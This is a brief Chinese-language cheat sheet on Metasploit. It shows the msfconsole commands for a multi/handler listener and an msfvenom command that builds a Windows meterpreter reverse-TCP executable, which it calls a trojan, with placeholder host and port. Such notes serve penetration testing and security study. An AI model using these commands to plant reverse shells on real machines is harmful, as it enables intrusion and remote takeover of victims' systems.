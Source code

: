 ## msfconsole
use multi/handler
set LHOST IP
set LPORT 端口
exploit
开始监听

## msfvenom
`-l payloads` 回显所有可生成的木马
`-p windows/meterpreter/reverse_tcp LHOST=IP LPORT=端口 -f exe -o 路径` 可以在 msfconsole 中使用

<!--stackedit_data:
eyJoaXN0b3J5IjpbMTg4ODEwMTg4MSw3MzUxNjQ3NTJdfQ==
-->